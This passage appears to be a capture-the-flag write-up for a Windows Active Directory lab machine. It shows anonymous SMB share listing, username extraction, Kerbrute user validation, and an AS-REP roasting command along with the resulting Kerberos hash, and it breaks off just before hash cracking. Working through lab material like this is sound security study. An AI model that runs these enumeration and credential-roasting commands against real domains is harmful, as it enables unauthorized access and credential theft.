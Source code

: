 ```shell
smbclient \\\\10.129.191.43\\profiles$ -N
```

```shell
smb: \> ls
  .                                   D        0  Wed Jun  3 12:47:12 2020
  ..                                  D        0  Wed Jun  3 12:47:12 2020
  AAlleni                             D        0  Wed Jun  3 12:47:11 2020
  ABarteski                           D        0  Wed Jun  3 12:47:11 2020
  ABekesz                             D        0  Wed Jun  3 12:47:11 2020
  ABenzies                            D        0  Wed Jun  3 12:47:11 2020
  ABiemiller                          D        0  Wed Jun  3 12:47:11 2020
  AChampken                           D        0  Wed Jun  3 12:47:11 2020
  ACheretei                           D        0  Wed Jun  3 12:47:11 2020
  ACsonaki                            D        0  Wed Jun  3 12:47:11 2020
<SNIP>
```

The list is quite long. Remember that usernames are always good to have, we can try multiple attacks with them. 

Let's extract the usernames from that list. We can do that with Bash copying the raw list into raw_usernames.txt to create a list with only the usernames named usernames.txt:
```shell
cat raw_usernames.txt | awk '{print $1}' > usernames.txt
```

Now we need to find out which of these usernames are valid.

We can use Kerbrute to enumerate a user list without password:
```shell
git clone https://github.com/TarlogicSecurity/kerbrute.git
cd kerbrute
# Make sure the usernames.txt list is inside the kerbrute folder
python3 kerbrute.py -users usernames.txt -dc-ip 10.129.191.43 -domain blackfield.local
```
Kerbrute gave us the following results:
```shell
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Valid user => audit2020
[*] Valid user => support [NOT PREAUTH]
[*] Valid user => svc_backup
[*] No passwords were discovered :'(
```

This is great, we got 3 valid users and the user support has PreAuth (Pre-authentication) disabled. This means we can do an AS-REP Roast attack on the support account!

# Foothold
## AS-REP Roasting on the support user
We will use impacket-GetNPUsers to do an AS-REP Roasting attack on the user support:
```shell
impacket-GetNPUsers blackfield.local/support -dc-ip 10.129.191.43 -no-pass
```
We got the hash of the user support. Nice!
```shell
$krb5asrep$23$support@BLACKFIELD.LOCAL:02ee82412322b915bcdb39d389965421$111f1e4dadd6ffc86b3ee321a04f97bb0aadc3131133f41f3ca3f73b2f1ad3ab044365d4eb6fc88ea48763211754afad019c3bfaec593590d5afc788fdbe59149711499ea858813522d28ee0da3714587af847a63b3903721f090e19073216599f1f6ba125a8adad5a9ba53edce69388be7fd3bb5aabf816511af83d93bce9e408963d61067cdaaefb62caba1d3a50a10aa5892da70a7cb5f9eaa225a3d1b818da389d603edf921000e21e8f18a12b1a905a7f3b4bbb55628d25747e6e0bcbbd2dcd60c630cc8e121b8052182a04b1681197a61a45a225c967a34d404f3e031e00a6a132eff0db70b68c2fc8eafb71600f5944ca
```
Now we need to summon the powers of Hashcat and Rockyou.txt and hope it gets cracked:
```shell
```